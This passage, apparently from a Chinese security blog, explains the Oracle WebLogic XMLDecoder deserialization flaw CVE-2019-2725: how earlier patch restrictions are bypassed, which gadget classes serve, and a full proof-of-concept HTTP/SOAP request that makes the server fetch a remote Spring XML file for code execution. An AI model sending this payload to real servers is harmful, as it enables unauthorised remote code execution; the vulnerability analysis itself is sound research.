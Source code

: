 ``` java
                  }
```

这里看似不能再使用void，其实不然，代码经过了一顿操作，如果void标签的内容是空或者只带index就不会抛出异常，由此又引出了新的漏洞。

## CVE-2019-2725

整理一下思路，我们想要利用XMLDecoder执行命令首先需要指定类名，指定类名之后要指定方法名，指定方法名之后需要指定参数完成RCE。

那么我们那现在还能用什么呢？首先class标签`<class>`可以和object标签`<object class>`达到一样的效果，[详细可以参考dtd文档]。(https://www.oracle.com/technetwork/java/persistence3-139471.html)没有method标签指定调用的方法，我们可以寻找有利用价值的构造方法，在实例化的同时直接调用。

下一步是解决参数问题，上面已经说了void标签只接index属性或者空，array中class属性只能是空或者byte类型。

那么总结下来，我们需要找到一个构造方法，构造方法的参数类型是byte_array或者是基础数据类型，比如string，int就可以满足array元素和void元素的限制条件。

师傅们找到了几个可以使用的构造方法，比如利用spring
依赖注入的`com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext`，利用二次反序列化的`oracle.toplink.internal.sessions.UnitOfWorkChangeSet`。



### POC

这是利用FileSystemXmlApplicationContext的POC。

``` xml
POST /_async/AsyncResponseService HTTP/1.1
Host: localhost:7001
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: text/xml
Content-Length: 
Cookie: remember-me=MXPUSANQRVaBJYtUucUgmQ==
Connection: close
Upgrade-Insecure-Requests: 1

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">
   <soapenv:Header> 
	   <wsa:Action>xx</wsa:Action>
	   <wsa:RelatesTo>xx</wsa:RelatesTo>
	   <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
		   <java>
				<class>					<string>com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext</string>
					<void>
						<string>http://xxxx</string>
					</void>
				</class>
			</java>
		</work:WorkContext>   
	</soapenv:Header>   
	<soapenv:Body>     
	<asy:onAsyncDelivery/>   
	</soapenv:Body>
</soapenv:Envelope>
```
